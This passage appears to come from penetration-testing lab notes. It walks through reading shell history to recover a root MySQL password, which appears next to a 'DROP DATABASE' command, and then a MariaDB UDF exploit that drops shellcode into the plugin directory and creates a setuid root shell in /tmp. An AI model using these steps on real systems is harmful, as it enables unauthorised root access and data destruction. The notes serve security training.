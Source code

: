 - We don’t find much in the home directory, but let’s take a look at the .bash\_history to see what they have been up to.

```bash
root@ajla:/home/ajla# cat ./.bash_history
sudo poweroff
```

- This is interesting. A fairly empty history means the account is not used much. 

- The server must have been administered somehow but we don’t see any other users on the system.

-   Let’s check the root user’s history

```bash
root@ajla:/home/ajla# cat ~/.bash_history
pwd
ls
cd /var/log/apache2/
tail -f error.log
tail -f access.log
mysql -u root -pBmDu9xUHKe3fZi3Z7RdMBeb -h 10.5.5.11 -e 'DROP DATABASE wordpress;'
cd /etc/mysql/
ls
cd ~/
ls
ls -alh
exit
exit 
root@ajla:/home/ajla#
```

- Excellent, the root user was used to administer Ajla and at one point, the MySQL client was used to drop the “wordpress” database. 

- ** Luckily for us, the password and user were entered directly in the command line!**

## Targeting the Database Again

### Summary
- through targeting the database get unprivileged shell  through previously obtained credentials.
---
---

- Now we have root database credentials for Zora’s MariaDB instance. Let’s go back and try the UDF exploit again using these new, higher-level, permissions.

## Exploitation

- As a reminder, the five commands that we are attempting to run against the MariaDB instance are found in Listing 933.

```bash
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec';
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```
